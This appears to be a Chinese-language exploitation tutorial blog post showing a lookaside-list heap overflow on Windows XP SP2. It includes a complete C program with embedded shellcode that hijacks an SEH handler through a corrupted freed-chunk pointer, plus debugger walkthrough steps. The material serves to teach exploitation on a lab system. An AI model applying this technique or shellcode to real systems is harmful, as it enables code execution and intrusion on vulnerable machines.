```yaml
---
layout:		post
title:		利用Lookaside表进行堆溢出
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp2 x86  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  
>注意: 原版OD调试堆时有些问题, 建议用吾爱OD
<!-- more -->


### 0x00 前期准备

新建一个工程, 贴入以下代码

```
#include "stdafx.h"
#include <stdio.h>
#include <windows.h>

char shellcode[]=
"\xEB\x40\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x03\x00\x03\x00\x5C\x01\x08\x99"
"\xE4\xFF\x12\x00"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7";


int main(int argc, char* argv[])
{
	HLOCAL h1,h2,h3;
	HANDLE hp;

	hp = HeapCreate(0,0,0);
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	h3 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);

	HeapFree(hp,0,h3);
	HeapFree(hp,0,h2);
	memcpy(h1,shellcode,300);

	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	h3 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	memcpy(h3,"\x90\x1E\x3A\x00",4);

	int zero = 0;
	zero = 1/zero;
	printf("%d",zero);

	return 0;
}
```

OD附加上去, 单步到完成三次分配

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x00.png)

当释放h3, 快表头指向了h3

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x01.png)

当释放h2, 快表头->h2->h3, 后释放节点会优先链到接近快表头

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x02.png)
![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x03.png)


### 0x01 exploit

执行memcpy覆盖h2的Next指针

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x04.png)

再次请求分配16 byte, 快表优先把靠近快表头的h2分配出去, 造成快表头->0x0012FFE4

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x05.png)

当再请求分配时, 快表就把0x0012FFE4地址分配出去

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x06.png)

往h3指向地址写入shellcode地址

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x07.png)

触发异常, pwn~

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x08.png)

当然, 不调试直接运行还是要将基址改成0x00390000